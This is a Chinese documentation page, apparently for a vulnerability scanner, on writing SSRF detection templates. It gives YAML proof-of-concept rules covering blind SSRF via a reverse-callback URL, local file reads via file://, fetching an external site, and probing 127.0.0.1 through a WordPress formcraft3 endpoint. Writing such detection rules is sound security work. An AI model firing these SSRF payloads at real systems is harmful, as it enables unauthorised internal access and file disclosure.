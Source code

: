 ```yaml
---
title: 'SSRF'
---
```


<Warning>切记SSRF检测的是能否正确从服务端`发出`请求，要严格与redirect区分。同时尽量去检测有回显的情况，如果确实无回显，那么使用反连平台即可</Warning>

## 无回显情况（Unrevealed）

<Info>这里的无回显指的是访问指定的地址没有`确切的返回结果`或者`报错信息`</Info>

无回显的SSRF较为容易进行匹配，在触发请求的地点使用`正确`的反连地址进行验证即可，同时在表达式中对反连平台返回的结果进行匹配。成功匹配就说明成功发送了

```yaml
name: poc-yaml-ssrf-reverse
transport: http
set:
	reverse: newReverse()
	reverseURL: reverse.url
rules:
	r0:
		request:
			cache: true
			method: POST
			path: /xxx
			headers:
				Content-Type: application/json
			body: |
				{"content": "include:\n remote: {{reverseURL}}"}
		expression: response.status == 200 && reverse.wait(5)
```

## 有回显情况（Revealed）

这个与无回显正好相反，访问指定的站点之后可能会出现一些可以进行匹配的特征。这里总结下之前见过的一些情况

### 文件读取类型（File Read）

```yaml
r0:
	request:
		cache: true
		method: POST
		path: /xxx
		headers:
			Content-Type: application/x-www-form-urlencoded
		body: |
			url=file:///{{filename}}
		follow_redirects: false
	expression: |
		response.status == 500 && response.body.bcontains(b"\"exception\":\"java.io.FileNotFoundException\",")
```

使用协议读取文件时，可以尝试去读取系统中存在的文件或者不存在的文件，依据response的内容与状态写出对应的匹配表达式即可

### 访问外部站点类型(External sites)

```yaml
r0:
	request:
		cache: true
		method: GET
		path: /xxx/http/example.com
		follow_redirects: true
	expression: response.status == 200 && response.body.bcontains(b"<title>Example Domain</title>") && response.body.bcontains(b"<h1>Example Domain</h1>")
```

<Warning>当访问外部站点时，一定需要注意的是能够访问的只是`公共站点`，一定不要请求一些私有项目的公开页面或者文件</Warning>

这个时候我们只要尝试去匹配返回结果中关于请求站点的相关内容即可。但是注意除了被访问页面的内容之外，我们一定要去匹配一些和被访问站点不同的内容，比如说状态码以及其他存在漏洞的站点中存在的内容

<Warning>但是这种方式是非常不推荐的，一方面是有目标不出网的可能性，另一方面当匹配内容与目标站点区分度不大时会有误报的风险</Warning>

### 访问内部站点类型（Internal sites）

```yaml
r0:
	request:
		cache: true
		method: GET
		path: /wp-admin/admin-ajax.php?action=formcraft3_get&URL=http://127.0.0.1:0
		follow_redirects: false
	expression: |
		response.status == 200 && response.body.bcontains(b"cURL error 3: ") && response.body.bcontains(b"failed")
```

这个例子说明了通过访问本地地址来验证SSRF漏洞的存在。一般这种情况下

- 尝试访问开放的端口，判断对应端口里返回的信息进行判断
    - 不推荐，开放的端口可能过于随机，且匹配的内容过于不固定
- 尝试访问一般情况下一定不开放或者不存在的端口，判断返回的报错信息进行判断
    - 较为推荐的写法

## 模板

[SSRF](/plugins/practice/poc/Template#ssrf-url)
